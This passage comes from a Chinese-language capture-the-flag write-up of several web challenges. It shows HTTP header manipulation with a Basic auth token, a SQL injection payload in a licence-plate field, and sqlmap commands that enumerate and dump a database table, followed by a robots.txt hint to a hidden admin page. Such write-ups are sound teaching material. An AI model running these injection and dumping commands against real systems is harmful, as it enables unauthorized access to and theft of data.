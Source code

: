 原因是我太铸币了忘了加Basic，`Authorization: Basic V2hhdCdzVGhlTWFnaWNXb3JkPw==`

![image-20211004003846943](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004003846943.png)

加一个日期的头，`Date: Thu, 1 Apr 2021 12:00:00 GMT`

![image-20211004004026742](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004004026742.png)

换成`Date: Mon, 5 Apr 2021 12:00:00 GMT`

![image-20211004004153788](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004004153788.png)

`dsc{4ll-y0u-g0tt4-d0-15-r3qu35t-n1c3ly}`

## Web/Taxi Union Problems

> An important package has been stolen from Mr Nagaraj by a Taxi driver. We've tried to ask the local taxi union about driver's location but they are refusing provide the same.
>
> Since this package is required for a time sensitive matter we don't have time to negotiate with the union.
>
> Your task is to obtain the location of the taxi using the given information
> `Taxi Lisence Plate: TN-06-AP-9879`
>
> HINT: The flag is the location of the taxi (no caps)

![image-20211003233419781](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211003233419781.png)

输入`TN-06-AP-9879'--%20`回显一样，有注入，把post的内容拿去让sqlmap跑一下

```
python sqlmap.py -r "/home/amelia/sh4r3/post.txt" -p lisence_plate --tables
python sqlmap.py -r "/home/amelia/sh4r3/post.txt" -p lisence_plate -T taxi --columns
python sqlmap.py -r "/home/amelia/sh4r3/post.txt" -p lisence_plate -T taxi --dump
```

![image-20211004000253417](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004000253417.png)

Ayanavaram

## *Web/Never gonna lie to you

> Trust me, take everything in the home page for face value. I would never lie to you.

主页有一句*Not even search engines can find it.*，提示我们看/robots.txt

![image-20211004000643314](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004000643314.png)

转到/never_gonna_give_you_up页面，标题是Admin Page但是一片空白，抓包后看到post表单的地方被抬头给挡住了，目标地址是/never_gonna_let_you_down

![image-20211004000944013](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004000944013.png)
